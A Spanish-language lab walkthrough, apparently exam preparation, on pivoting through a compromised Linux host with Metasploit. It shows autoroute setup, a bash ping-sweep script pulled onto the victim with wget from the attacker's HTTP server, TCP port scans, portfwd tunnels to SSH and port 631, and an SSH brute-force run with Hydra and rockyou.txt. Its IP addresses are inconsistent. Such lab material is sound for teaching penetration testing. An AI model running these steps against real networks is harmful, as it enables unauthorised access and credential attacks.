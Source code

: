 
---
- TAG: #Laboratorios #Pivoting #Linux 
-----

### Pivoting en Linux - Parte 2

En esta segunda parte, continuamos con el proceso de pivoting en una red interna comprometida, usando **Metasploit** y un script de **bash** para identificar y explotar nuevas máquinas en la red.

---

#### Paso 1: Identificar las interfaces de red en la máquina comprometida

Una vez en el **interprete de Meterpreter** y habiendo comprometido la **máquina intermedia Friendly**, debemos listar las interfaces de red con:

```meterpreter
ipconfig
```

Veremos dos interfaces de red:
1. **Friendly**: la máquina intermedia.
2. **Basic**: la tercera máquina en la red interna que queremos pivotar.

---

#### Paso 2: Poner en segundo plano la sesión de Meterpreter

Para escanear otros dispositivos en la red, debemos poner la sesión de Meterpreter en segundo plano usando:

```bash
Ctrl + Z
```

Verificamos que la sesión sigue activa con:

```bash
sessions -l
```

---

#### Paso 3: Añadir rutas y configurar el enrutamiento

El siguiente paso es enrutar el tráfico para poder escanear la red interna. Cargamos el módulo `autoroute`:

```bash
use /multi/manage/autoroute
```

Asignamos el **SESSION ID** correspondiente (en este caso 1):

```bash
set SESSION 1
```

Luego, ejecutamos el módulo:

```bash
run
```

Verificamos que el enrutamiento ha sido configurado correctamente con:

```bash
route
```

Debemos ver la red interna, por ejemplo, `192.168.0.0/24`.

---

#### Paso 4: Crear un script de escaneo de red en bash

Para identificar otros dispositivos en la red interna, podemos usar un **script de bash** que ejecutaremos en la máquina víctima. Creamos el script en nuestra máquina local:

```bash
nano escaner.sh
```

El contenido del script será el siguiente:

```bash
#!/bin/bash

for i in {1..255}; do
	timeout 1 bash -c "ping -c 1 10.0.10.$i" >/dev/null
	if [ $? -eq 0 ]; then
		echo "El host 10.0.10.$i está activo"
	fi
done
```

Este script realiza un **ping** a todas las IPs en el rango `10.0.10.1 - 10.0.10.255`.

---

#### Paso 5: Transferir el script a la máquina intermedia

Iniciamos un servidor HTTP en nuestra máquina para compartir el script:

```bash
python3 -m http.server 80
```

Volvemos a la sesión de **Meterpreter**:

```bash
sessions -i 1
```

Y descargamos el script a la máquina intermedia:

```bash
wget 1.2.3.4/escaner.sh
```

Donde `1.2.3.4` es la IP de nuestro servidor. Verificamos que el archivo fue transferido:

```bash
ls
```

Asignamos permisos de ejecución al archivo:

```bash
chmod +x escaner.sh
```

Finalmente, ejecutamos el script:

```bash
./escaner.sh
```

Este script nos mostrará los **hosts activos** en la red interna. Las direcciones con `.1` o `.2` suelen ser puertas de enlace, pero debemos anotar las otras direcciones activas.

---

#### Paso 6: Escaneo de puertos con Metasploit

Regresamos a **Metasploit** y utilizamos el módulo de escaneo de puertos TCP para la IP identificada (en este caso, `1.2.3.8`):

```bash
use scanner/portscan/tcp
set RHOSTS 1.2.3.8
run
```

Este módulo nos mostrará los **puertos abiertos** en la máquina objetivo.

---

#### Paso 7: Hacer port forwarding para acceder a los servicios

Usaremos **port forwarding** para redirigir puertos de la máquina víctima a nuestro equipo local. Por ejemplo, si queremos acceder al puerto **22 (SSH)** de la máquina víctima, lo redirigimos al puerto **222** de nuestro equipo:

```bash
session -i 1
portfwd add -l 222 -p 22 -r 1.1.1.8
```

Ahora podemos conectarnos al servicio **SSH** de la máquina víctima desde nuestra terminal local:

```bash
ssh dimitri@127.0.0.1 -p 222
```

De la misma manera, si queremos acceder al puerto **631**, lo redirigimos a nuestro puerto **5000**:

```bash
portfwd add -l 5000 -p 631 -r 1.1.1.8
```

Y podemos acceder al servicio desde el navegador:

```bash
127.0.0.1:5000
```

---

#### Paso 8: Ataque de fuerza bruta con Hydra

Si desean realizar un ataque de fuerza bruta al servicio **SSH**, pueden usar **Hydra** de la siguiente manera:

```bash
hydra -l dimitri -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1 -s 222
```

---

Este es el proceso completo de **pivoting en entornos Linux**. Es importante tener en cuenta que, durante el examen, es probable que el **pivoting** se realice en una máquina **Windows**, por lo que deben adaptar las técnicas a la plataforma que estén atacando.

